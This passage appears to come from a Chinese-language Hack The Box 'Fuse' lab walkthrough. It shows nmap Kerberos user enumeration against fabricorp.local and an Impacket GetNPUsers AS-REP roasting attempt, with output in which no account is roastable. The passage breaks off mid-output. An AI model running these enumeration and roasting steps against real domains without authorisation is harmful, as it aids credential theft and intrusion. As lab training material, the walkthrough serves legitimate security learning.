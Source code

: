 Host is up (0.27s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     sthompson@fabricorp.local
|     administrator@fabricorp.local
|     pmerton@fabricorp.local
|     tlavel@fabricorp.local
|     Fuse@fabricorp.local
|_    bhult@fabricorp.local

Nmap done: 1 IP address (1 host up) scanned in 3.60 seconds

```

有效的域用户名单为：
```
tlavel
bhult
sthompson
administrator
pmerton
Fuse
```


查看是否有不需要预认证的用户
```
┌──(root💀kali)-[~/htb/Fuse]
└─# python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py fabricorp.local/ -usersfile /root/htb/Fuse/user  -outputfile hashes.asreproast -dc-ip 10.10.10.193
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Fuse doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
